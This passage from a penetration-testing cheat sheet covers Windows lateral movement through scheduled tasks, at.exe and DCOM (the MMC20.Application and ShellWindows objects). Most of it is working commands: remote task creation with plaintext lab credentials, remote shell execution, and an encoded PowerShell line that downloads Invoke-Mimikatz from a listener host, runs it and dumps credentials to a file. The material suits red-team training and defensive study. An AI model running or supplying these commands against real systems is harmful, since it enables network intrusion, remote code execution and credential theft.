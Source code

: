 ```text
schtasks.exe /Create /S 192.168.112.200 /U testlab\josh /P Password1 /TR "C:\Windows\System32\win32calc.exe" /TN "pwnd" /SC ONCE /ST 20:05
```

```text
at.exe \\192.168.112.200 20:25 cmd /c "C:\Windows\System32\win32calc.exe"
```

### Microsoft Management Console \(MMC2.0\) Application Class

In 2017, Matt Nelson released [research](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/) into methods for lateral movement using DCOM. We strongly urge you to review his research for full details \(it's worth the read\). Reviewing all the intricacies of DCOM is outside the scope of what can/should be covered in a "cheat sheet", but leave it to say the MMC2.0 application class can be accessed remotely over RPC/DCOM, and exports the ExecuteShellCommand method which can be used to... Execute..a..Shell..Command.

MMC requires local admin due to the nature of the application, and will be blocked by the default firewall rules. BUT, we've seen enough networks that disable host firewalls to make good use of this technique. 

**Port:** 135/TCP \(RPC\), plus one high-random TCP \(DCOM\)

**Tools:** native .NET calls on Windows

**Example code execution:**

```text
PS> $com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.112.200"))
PS> $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\calc.exe",$null,$null,"7")
```

  
**Example Invoke-Mimikatz** \(listener started on 192.168.112.132:8000\)**:**

```text
PS> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("IEX (New-Object Net.WebClient).DownloadString('http://192.168.112.132:8000/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds > C:\\Users\\josh\\Desktop\\mimi.txt"))

PS> $com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.112.200"))
PS> $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe",$null,"-enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEAMQAyAC4AMQAzADIAOgA4ADAAMAAwAC8ASQBuAHYAbwBrAGUALQBNAGkAbQBpAGsAYQB0AHoALgBwAHMAMQAnACkAOwAgAEkAbgB2AG8AawBlAC0ATQBpAG0AaQBrAGEAdAB6ACAALQBEAHUAbQBwAEMAcgBlAGQAcwAgAD4AIABDADoAXABcAFUAcwBlAHIAcwBcAFwAagBvAHMAaABcAFwARABlAHMAawB0AG8AcABcAFwAbQBpAG0AaQAuAHQAeAB0AA==","7")
```

### ShellWindows Object

A few weeks after his initial research on MMC lateral movement, Matt Nelson published more research targeting DCOM objects that lacked an explicit LaunchPermission attribute. Read his post [here](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/) for a thorough review of the techniques shown below.
